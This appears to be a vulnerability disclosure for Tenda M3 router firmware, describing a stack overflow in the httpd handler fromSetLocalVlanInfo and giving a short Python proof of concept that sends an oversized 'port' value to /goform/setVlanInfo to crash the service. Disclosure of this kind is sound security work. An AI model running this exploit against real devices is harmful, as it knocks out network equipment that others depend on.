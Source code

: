 # Tenda M3 contains Stack Overflow Vulnerability

## overview

- type: stack overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a stack overflow. The vunlerability is in fucntion `fromSetLocalVlanInfo` 

![image-20220818232658932](readme.assets/image-20220818232658932.png)

In this function, is copies POST parameter `port` to stack buffer without checking its length, causing a stack overflow vulnerability. 

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "action": "add", 
    "port": "a"*0x300
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setVlanInfo", data=data, cookies=cookies)
print(res.content)

```



![image-20220818232714693](readme.assets/image-20220818232714693.png)
